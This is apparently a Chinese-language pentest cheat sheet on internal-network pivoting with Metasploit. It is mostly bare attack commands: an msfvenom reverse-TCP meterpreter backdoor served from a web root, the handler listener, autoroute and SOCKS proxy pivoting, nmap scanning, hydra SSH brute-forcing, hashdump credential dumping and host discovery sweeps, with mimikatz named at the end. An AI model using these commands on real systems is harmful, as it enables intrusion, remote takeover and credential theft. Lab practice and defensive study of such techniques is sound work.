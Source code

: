 拓扑图![image-20210504193245606](../acess/image-20210504193245606.png)生成metasploit后门

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

kali监听

```bash
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

查看当前用户

```bash
getuid
```

获取网卡信息

```bash
ifconfig
```

路由信息

```bash
run get_local_subnets
```

增加路由

```bash
run autoroute  -s 10.10.10.0/24
background
```

清空路由

```
run autoroute -p
```

配置代理socks4

```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION   4a
run
```

修改/etc/prxoychains.conf

```bash
socks4  127.0.0.1 1080
```

扫描端口服务

```bash
proxychains nmap -Pn -sT 10.10.10.128
```

破解端口服务l

```bash
proxychains hydra -l root -P ~/pentest/top100password.txt ssh://10.10.10.128 -V
```

hash收集、hash传递

```bash
run hashdump
```

内网存活机子

```bash
for /l %i in (1,1,255) do @ping 192.168.31.%i -w 1 -n 1 | find /i "ttl"
```

metasploit的主机发现模块

```bash
use auxiliary/scanner/discovery/arp_sweep
```

端口收集

端口映射

反向隧道

密码收集	mimikatz